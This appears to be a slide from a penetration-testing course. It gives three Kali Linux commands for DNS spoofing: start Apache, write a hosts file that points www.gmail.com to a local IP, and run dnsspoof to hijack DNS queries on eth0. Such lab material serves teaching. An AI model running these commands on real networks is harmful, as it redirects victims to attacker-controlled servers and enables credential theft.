

# Setting Up DNS Spoofing in Kali
1. Ensure Apache server is running:
  root@kali:~# service apache2 start
2. Create a `hosts.txt` file with spoofed DNS entries:
  root@kali:~# echo "192.168.20.9 www.gmail.com" > hosts.txt
3. Run `dnsspoof` to hijack DNS queries:
root@kali:~#  dnsspoof -i eth0 -f hosts.txt